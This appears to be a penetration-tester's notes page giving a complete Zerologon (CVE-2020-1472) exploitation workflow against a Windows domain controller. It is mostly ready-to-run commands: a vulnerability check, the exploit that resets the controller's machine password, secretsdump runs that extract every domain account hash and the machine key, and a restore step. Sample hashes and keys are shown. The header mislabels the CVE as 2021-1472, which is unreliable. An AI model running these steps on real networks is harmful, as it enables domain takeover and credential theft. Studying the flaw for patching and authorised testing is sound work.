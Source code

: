 ```yaml
---
title: Zerologon
date: M11-02-2022
author: i4
---
```


# Zerologon

## Information - CVE-2021-1472
- Release: 11.05.2020

Be aware: Zerologon resets the Computer account!

> By forging an authentication token for specific Netlogon functionality, he was able to call a function to set the computer password of the Domain Controller to a known value. After that, the attacker can use this new password to take control over the domain controller and steal credentials of a domain admin.
> The vulnerability stems from a flaw in a cryptographic authentication scheme used by the Netlogon Remote Protocol, which among other things can be used to update computer passwords. This flaw allows attackers to impersonate any computer, including the domain controller itself, and execute remote procedure calls on their behalf.

### POC
![CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

### searchsploit
```
searchsploit -m 49071
```

#### Workflow
**NOTE** - Exploitation will break the DC until restored, recommended guidelines:

1. Check the DC - usually ~300 attempts, use the NETBIOS name not the FQDN:
  `cve-2020-1472.py -do check -target <NETBIOS NAME> -ip <IP>`
2. Exploit the DC - this will break the DC until restored:
  `cve-2020-1472.py -do exploit <NETBIOS NAME> -ip <IP>`
3. Dump the DC - for the DA hashes, this will not contain the machine hex-pass:
  `secretsdump.py -just-dc -no-pass <NETBIOS NAME>\$@<IP>`
4. Dump the DC again - use the DA hash to get the machines hex-pass:
  `secretsdump.py -no-pass -hashes <LMHASH>:<NTHASH> <DOMAIN>/<ADMIN>@<IP>`
5. Restore target - this fixes the DC:
  `cve-2020-1472.py -do restore -target <NETBIOS NAME> -ip <IP> -hex <HEXPASS>`

## Usage
NETBIOS name of the DC
`nbtscan -r {ip}`

![](/images/w/Zerologon/nbtscan.png)

**NOTE** - Use virtualvenv for different dependencies to not clog up the system
```
python3 -m venv impkt
source impkt/bin/activate
pip install git+https://github.com/SecureAuthCorp/impacket
```

### Check if host is vulnerable
```
$ python3 ./49071.py -do check -target CASTER -ip 10.0.0.135
...
[+] attempt x
...
$ [+] successfully authenticated
```

### Run Exploit
```
$ python3 ./49071.py -do exploit -target CASTER -ip 10.0.0.135
```

![](/images/w/Zerologon/zerologon-exploit.PNG)

### DUMP 
*NOTE* - Use `secretsdump.py` from SecureAuth Corporation as we need to connect with the computer credentials

```
$ secretsdump.py -just-dc -no-pass CASTER\$@10.0.0.135
```

![](/images/w/Zerologon/zerologon_explosion.PNG)

### Dumping machine Hex-pass
Now that we have the hashes of all the accounts, we can use the DA account to dump the NL$KM hash.

**NOTE** - NL$KM: secret key is used to encrypt cached domain passwords

```
$ secretsdump.py -no-pass -hashes aad3b435b55194eeaad3b435b51404ee:6be7a5f1051e16965eb1626fb26c8c87 MOON\Administrator@10.0.0.135
```

![](/images/w/Zerologon/zerologon-harder.PNG)


### Restore
In the last execution we got the following output:
```
[#] DPAPI_SYSTEM
dpapi_machinekey: 0xcd752fe8145175f42bf6fc4958d28d34efe8f8f7
```

This key will now be used to fix the system.

```
python3 ./49071.py -do restore -target CASTER -ip 10.0.0.135 -hex cd752fe8145175f42bf6fc4958d28d34efe8f8f7
```

Note the missing `0x`

If you've forgotten to write down the hex-key
you are still able to restore the device if you run the following command on it:
```
netdom resetpwd /server:10.0.0.135 /userd:moon.type\administrator /password:whatever
```

